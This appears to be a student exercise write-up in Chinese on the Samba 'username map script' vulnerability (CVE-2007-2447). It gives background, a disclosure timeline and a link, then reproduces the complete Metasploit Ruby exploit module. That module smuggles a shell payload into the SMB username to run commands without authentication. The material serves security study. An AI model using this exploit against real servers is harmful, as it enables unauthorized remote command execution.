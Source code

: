 ## 1-1 练习

> 通过搜索引擎、安全漏洞信息库等各种渠道，搜集Samba服务usermap_script安全漏洞的相关信息，画出该安全漏洞的生命周期图，标注各个重要事件点的日期，并提供详细描述和链接。

-----------------

## 简介

Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。

SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。



## 漏洞 CVE-2007-2447

### Username map script 是什么

- Samba协议的一个漏洞CVE-2007-2447，用户名映射脚本命令执行
- 影响Samba的3.0.20到3.0.25rc3 版本
- 当使用非默认的用户名映射脚本配置选项时产生
- 通过指定一个包含shell元字符的用户名，攻击者能够执行任意命令

### 如何利用
- 使用metasploit框架
- 使用模块：/multi/samba/usermap_script

### 漏洞时间线

- 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
- 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
- 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
- 2007年5月10日：向vendor-sec邮件列表发布通知。
- 2007年5月14日：公开漏洞信息。

### 漏洞出处
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script


### exploit 源码（Ruby）

```ruby
# usermap_srcipt.rb
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```